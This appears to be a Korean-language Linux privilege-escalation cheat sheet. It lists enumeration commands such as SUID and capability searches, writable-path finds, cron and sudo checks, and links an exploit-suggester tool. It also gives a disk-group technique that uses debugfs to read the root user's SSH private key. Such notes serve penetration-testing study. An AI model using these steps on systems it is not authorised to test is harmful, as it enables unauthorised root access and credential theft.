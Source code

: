 ```bash
# OS정보 확인
cat /etc/issue

cat /etc/os-release

uname -a
```
```bash
# 프로세스 및 네트워크 상태 확인
ps aux

ifconfig

routel

ss -anp

cat /etc/iptables/rules.v4
- IPv4 iptables 방화벽 규칙 확인.
```
```bash
ls -al /etc/cron*
sudo crontab -l
```
```bash
# 패키지 목록 조회
dpkg -l
```
```bash
find / -writable -type d 2>/dev/null

find /etc -writable -type f 2>/dev/null

find /usr -writable -type f 2>/dev/null

find /var -writable -type f 2>/dev/null
```
```bash
# 마운트 및 디스크 정보 조회
cat /etc/fstab
- 부팅 시 자동 마운트되는 파일 시스템 정보 확인.

mount

lsblk
- 블록 디바이스(디스크, 파티션) 정보 출력.
```
```bash
# 커널 모듈 정보
lsmod
- 현재 로드된 커널 모듈 목록 표시.

/sbin/modinfo libata
- 특정 커널 모듈(`libata`)의 상세 정보 확인.
```
```bash
find / -perm -4000 -type f 2>/dev/null
```
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
```bash
sudo -l
```
---
# Linux Exploit Suggester
- https://github.com/The-Z-Labs/linux-exploit-suggester
- 예전 버전 리눅스 취약점 발견에 용이
---

# disk group privilege escalation
- https://www.hackingarticles.in/disk-group-privilege-escalation/
- `disk` 그룹은 **로우 블록 디바이스**(예: `/dev/sda`, `/dev/nvme0n1p2`)에 접근할 수 있습니다.  
```bash
df -h
- 현재 마운트된 파일시스템의 디스크 사용량을 사람이 읽기 쉬운 형태로 출력합니다.
```
<img width="689" height="248" alt="image" src="https://github.com/user-attachments/assets/96e0cff6-b9f2-4624-9c36-417a71ddac0c" />

```bash
debugfs /dev/sda3
- 파일시스템의 내부 구조를 조작하거나 디버깅할 수 있는 저수준 파일시스템 디버거 실행

mkdir test
- readonly로 설정되어 있으면 아래 코드 실행

cat /root/.ssh/id_rsa
```
# sudo group
```bash
sudo su
```
